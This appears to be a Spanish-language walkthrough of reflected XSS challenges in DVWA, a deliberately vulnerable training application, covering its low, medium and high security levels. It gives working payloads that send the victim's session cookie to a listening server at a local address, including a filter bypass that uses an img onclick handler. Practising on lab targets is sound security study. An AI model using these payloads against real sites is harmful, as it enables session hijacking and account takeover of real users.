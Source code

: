 ### Security: low
Con el nivel de seguridad bajo seleccionado, no hay ningún tipo de protección, podemos robar la cookie de sesión con el siguiente payload mientras dejamos un servidor http a la escucha en nuesta máquina:

```
# 1- Levantar servicdor http:
$ python3 -m http.server
# 2- Introducir el siquiente payload:
<script type="text/javascript">document.location='http://172.17.0.1:8000/index.html?c='+document.cookie;</script>
```

![XSS Reflected](https://github.com/sapellaniz/dvwa/blob/master/img/xss-reflected-01.png)

### Security: medium
Con el nivel de seguridad medio seleccionado, si inspeccionamos el código, podemos ver que hay una protección que elimina la cadena "script" de nuestra entrada, se puede bypassear facilmente con el siguiente payload:

```
<img src="#" onclick=document.location='http://172.17.0.1:8000/index.html?c='+document.cookie; >
```

### Security: high
Con el nivel de seguridad alto seleccionado, podemos usar el mismo payload que usamos con el nivel de seguridad medio.


# XSS stored
